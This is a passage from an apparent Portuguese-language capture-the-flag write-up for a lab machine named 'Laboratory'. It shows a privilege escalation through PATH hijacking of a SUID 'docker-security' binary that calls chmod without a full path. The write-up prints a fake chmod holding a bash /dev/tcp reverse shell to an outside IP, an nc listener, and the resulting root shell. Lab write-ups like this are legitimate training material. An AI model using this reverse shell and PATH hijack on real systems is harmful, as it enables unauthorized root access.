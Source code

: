 Antes de utilizar ferramentas de disassembly, inspecionado as strings do arquivo a partir da máquina atacante (uma vez que a máquina não possui o binário `strings`) e algumas entradas chamaram a atenção, sendo elas a chamada do binário `chmod` para redefinir as permissões no diretório docker, porém sem especificar o caminho completo. Isso implica que este app **é vulnerável *path hijacking***.

```bash
$ strings docker-security
[...]

[]A\A]A^A_
chmod 700 /usr/bin/docker
chmod 660 /var/run/docker.sock
;*3$"
GCC: (Debian 10.1.0-6) 10.1.0

[...]
```

### Path hijack

Para obter privilégios de `root`, uma vez que o binário que possui SUID é vulnerável, o primeiro passo é criar um `chmod` **falso**, neste caso gerando um shell reverso, seguido da alteração do PATH para que o caminho onde o arquivo localizado seja buscado no início da execução.

```bash
dexter@laboratory:~$ echo '#!/bin/bash' > /dev/shm/chmod
dexter@laboratory:~$ echo 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1' >> /dev/shm/chmod
dexter@laboratory:~$ chmod +x /dev/shm/chmod
dexter@laboratory:~$ PATH=/dev/shm:$PATH
dexter@laboratory:~$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
```

Após configurar um listener na porta especificada (`nc -lnvp 4443`) executado o binário `docker-security` o que retornou um shell reverso com privilégios de **root**, permitindo assim a obtenção da flag.

```bash
$ nc -lnvp 4443                                                                                             
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.216] 44754
root@laboratory:~# id  
id
uid=0(root) gid=0(root) groups=0(root),1000(dexter)
root@laboratory:~# cat /root/root.txt
cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês novamente em breve! :smiley:

